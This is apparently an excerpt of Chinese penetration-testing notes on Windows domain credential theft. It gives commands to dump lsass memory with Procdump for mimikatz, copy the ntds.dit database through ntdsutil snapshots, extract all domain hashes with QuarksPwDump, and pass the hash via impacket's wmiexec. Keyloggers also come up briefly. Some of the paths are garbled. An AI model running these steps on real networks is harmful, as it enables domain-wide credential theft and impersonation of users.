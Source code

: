 对于NT5 系统可以使用微软的Procdump工具

Procdump.exe -accepteula -ma lsass.exe lsass.dmp

2.使用mimikatz中sekurlsa::minidump功能导入dmp文件，进而获取密码

![4.png](file:///Users/david/Desktop/notes/课件/tz/域相关/pic/4.png)

键盘记录
这个就不多说了，一般的键盘记录功能都可以清楚记录用户操作，其中包含各种网站、设备、软件登录口令~~~

域控服务器hash导出
Ntdsutil.exe是一个为 Active Directory 提供管理设施的命令行工具。可使用Ntdsutil.exe 执行Active Directory的数据库维护，管理和控制单个主机操作，创建应用程序目录分区，以及删除由未使用Active Directory安装向导 (DCPromo.exe)成功降级的域控制器留下的元数据。Ntdsutil还可以用来获取域控数据库ntds.dit文件，具体命令如下：

(1)创建快照
ntdsutil snapshot "activate instance ntds" create quit quit

(2)Ntdsutil挂载活动目录的快照
ntdsutil snapshot "mount {GUID}" quit quit
{GUID}为动态获取的

(3)复制快照的本地磁盘
copy MOUNT_POINTwindowsNTDS
tds.dit c:
tds.dit

(4)卸载快照
ntdsutil snapshot "unmount {GUID}" quit quit

(5)删除快照
ntdsutil snapshot "delete {GUID}" quit quit

使用命令“QuarksPwDump.exe --dump-hash-domain --ntds-file c:
tds.dit”将导出的ntds.dit文件中哈希值全导出

Quarks PwDump https://blog.quarkslab.com/quarks-pwdump.html

Pass the Hash
在Windows系统中，通常会使用NTLM身份认证

NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值由系统API生成(例如LsaLogonUser)

hash分为LM hash和NT hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista和Windows Server 2008开始，微软默认禁用LM hash

如果攻击者获得了hash，就能够在身份验证的时候模拟该用户(即跳过调用API生成hash的过程)

wmiexec
参考地址：

https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

exe版本下载地址：

https://github.com/maaaaz/impacket-examples-windows

注：

wmiexec.py的注释中提示"Main advantage here is it runs under the user (has to be Admin) account"，经实际测试普通用户权限即可

